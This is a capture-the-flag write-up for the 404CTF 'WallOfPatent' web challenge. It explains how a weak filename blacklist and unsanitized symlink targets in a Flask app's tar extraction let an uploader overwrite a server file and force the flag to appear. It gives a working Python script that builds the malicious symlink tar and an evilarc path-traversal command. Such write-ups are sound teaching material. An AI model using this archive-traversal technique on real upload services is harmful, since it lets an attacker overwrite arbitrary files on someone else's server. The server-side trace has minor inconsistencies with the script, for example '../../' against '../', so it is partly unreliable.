

## ## Challenge Description

Vous avez de nombreux brevets dans vos placards, et vous ne savez pas où les montrer ? WallOfPatent est la plateforme qu'il vous faut ! Publiez vos inventions à l'aide d'un simple zip, et les pros vous donneront des retours constructifs pour vous améliorer. Entrez dans la légende, devenez un·e grand·e scientifique français·e célèbre ! Et qui sait, peut-être parviendrez-vous à obtenir le commentaire ultime ?

[Challenge Source Code](https://github.com/HackademINT/404CTF-2026/tree/main/Web/WallOfPatent)

## ## Application Architecture

### Web Application (Flask)
- **Endpoint `/post_patent`**: Accepts tar/zip uploads
- **Endpoint `/comment`**: Returns random comment from `bot_outputs` table
- **Endpoint `/`**: User login

### Bot Service
- Runs every 15 seconds
- Reads seed value from database
- Uses `compute_range(seed)` to select comment IDs
- Writes selected comments to `bot_outputs` table

### Database
- `comments` table: 155 comments (IDs 1-155), flag at ID 155
- `seed` table: Current seed value (init value: 7)
- `bot_outputs` table: Comments currently available via `/comment`

---

## ## Solution

We are given a vulnerable web application that store our upload files and give a random comment to it. With the source code given, we can see the flag being added into the database after loading all comments in data.json. With 154 comments, we can guess the id of flag is 155.

Now we need to know how does the bot choose comment. In bot.py the bot choose the comment with id between 2 values k and k+l with k and l computed from `seed` in db.

Here is how k and l are computed from 

**File:** `bot/utils.py` lines 5-12

```python
def compute_range(key, coms_length):
    bin_key = format(key, f'0{len(bin(coms_length))-2}b')  # Convert to binary
    l = int(bin_key[len(bin_key)-2:], 2)                  # Last 2 bits = length
    k = ceil((int(bin_key[:len(bin_key)-2],2)/int(bin_key[:len(bin_key)-2].replace('0','1'),2))*(coms_length-1-l))
    return k,l
```
This function does:
1. Convert the seed to binary
2. Extract the last 2 bits as `l`
3. Calcutale the starting ID (`k`), coms_length = 156: 
    - Use all bits except the last 2, convert into INT as numerator
    - Replace 0->1, convert into INT as denominator
    - k = ceil( (numerator / denominator) × (coms_length - 1 - l) )

With the initital seed 7 with new seed changed in range from 156-246, it is mathematically impossible to randomize with resultat of 155. We need to use our own seed in order to get 155. Here is a table of possible value of seed that we can inject into the database in order to include FLAG as a comment.

| Seed | Binary | l (length) | k (start) | Range | Comments |
|------|--------|-----------|----------|-------|----------|
| 7    | 00000111 | 3 | 3 | [3, 6] | Default (random comments) |
| 252  | 11111100 | 0 | 155 | [155] | **Flag only** |
| 253  | 11111101 | 1 | 154 | [154, 155] | **Flag + 1 other** |
| 254  | 11111110 | 2 | 153 | [153, 155] | **Flag + 2 others** |
| 255  | 11111111 | 3 | 152 | [152, 155] | **Flag + 3 others** |

With the source code, we already know that the app read new seed from /app/references/reference.txt as base64 encoded value, so we need to change the content of this file into `MjUy`, or 252 in base64.

How can we achieve this? in /app-flask/app/utils.py we have tar file extraction with fully_trusted filter.
```python
def extract_tar_archive(file, path='app/uploads/'):
    tar = tarfile.open(fileobj=file)
    try:
        for member in tar.getmembers():
             clean_name = sanitize_filename(member.name)
             member.name = clean_name
             tar.extract(member, path=path, filter='fully_trusted')
    except Exception as e:
            print(e) 
    tar.close()
```

There is a sanitizer for the file name, however it is quite weak, and it only filter the name, not the symlink.
```python
def sanitize_filename(filename):
     print("filename avant :", filename, flush=True)
     blacklist = ["../", "..\\",  ".\\", "//", "..", "\\\\"]
     for pattern in blacklist:
        filename = filename.replace(pattern, "")
     print("filename après blacklist :", filename, flush=True)
     while filename.startswith("/") or filename.startswith("\\"):
        filename = filename[1:]
     print("filename sanitizé :", filename, flush=True)
     return filename
```
So we can use this script to create a tar file with a symlink to reference.txt, change its value and update the seed.

```python
from math import ceil
from random import randrange
import base64
import tarfile
import io

def compute_range(key, coms_length):
    print("seed:", key)
    bin_key = format(key, f'0{len(bin(coms_length))-2}b')
    l = int(bin_key[len(bin_key)-2:], 2)
    k = ceil((int(bin_key[:len(bin_key)-2],2)/int(bin_key[:len(bin_key)-2].replace('0','1'),2))*(coms_length-1-l))
    print("k :", k)
    print("l :", l)
    return k,l

def read_key(key):
    return compute_range(key, coms_length=156)

def create_exploit_tar(seed, copy):
    for i in range(copy):
        encoded_seed = base64.b64encode(str(seed).encode()).decode()
        filename = f"./exploit_{seed}_{i}.tar.gz"
        # Create COMPRESSED tar (w:gz mode)
        tar = tarfile.open(filename, 'w:gz') 
        
        # Member 1: Symlink
        sym = tarfile.TarInfo(name=f"hijack_ref_{i}")
        sym.type = tarfile.SYMTYPE
        sym.linkname = "../references/reference.txt"
        tar.addfile(sym)
        
        # Member 2: File with seed
        content = encoded_seed.encode()
        file_info = tarfile.TarInfo(name=f"hijack_ref_{i}")
        file_info.size = len(content)
        tar.addfile(file_info, io.BytesIO(content))
        
        tar.close()
    return 0

if __name__ == "__main__":
    i = 0
    # Finding seed that give us range including 155 => k <= 155 <= k+l. 
    # RESULT: 254 (153,2) 255 (152,3)  
    # res = []
    # for x in range(256):
    #     k,l = read_key(x)
    #     if k <= 155 <= k+l:
    #         res
    #         print(f"Seed {x} gives range [{k}, {k+l}] which includes 155")
    create_exploit_tar(252,1)
```
Here is what happens in the server:

1. Flask app receives the file upload
   └─ Calls extract_tar_archive(file)

2. extract_tar_archive loops through tar members:
   
   Member 1 (Symlink):
   ├─ member.name = "hijack_ref"
   ├─ Sanitized to "hijack_ref" (Sanitized, but nothing here)
   ├─ member.linkname = "../../references/reference.txt" (Not sanitized)
   └─ tar.extract() creates: app/uploads/hijack_ref → ../../references/reference.txt
   
   Member 2 (File):
   ├─ member.name = "hijack_ref"
   ├─ tar.extract() tries to write to app/uploads/hijack_ref
   └─ Since it's a symlink it writes to app/references/reference.txt

3. Flask calls update_seed_db():
   ├─ read_seed() decodes reference.txt (value 252)
   └─ Stores in database

5. Bot runs (every 15 seconds):
   ├─ Reads seed = 252
   ├─ compute_range(252) = (155, 0) = range [155-155]
   └─ Writes to bot_outputs table the flag

This worked for me, but the dev of this challenge proposed another solution using [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) script with ```python3 evilarc.py reference.txt -f evil.tar.gz -p .//\\\\./references -d 0 -o unix``` command. 

